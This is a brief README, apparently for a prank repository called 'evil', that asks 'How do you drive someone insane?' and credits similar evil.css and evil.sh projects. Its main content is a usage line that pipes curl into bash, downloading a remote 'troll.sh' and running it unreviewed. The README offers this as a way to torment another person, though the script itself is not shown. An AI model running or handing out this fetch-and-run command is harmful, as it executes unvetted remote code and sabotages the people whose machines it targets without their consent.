 # evil
How do you drive someone insane?

#Usage
curl -s "https://raw.githubusercontent.com/johnny-y-wang/evil/master/troll.sh" | bash /dev/stdin arg1 arg2

Credit: https://github.com/tlrobinson/evil.css, https://github.com/mathiasbynens/evil.sh
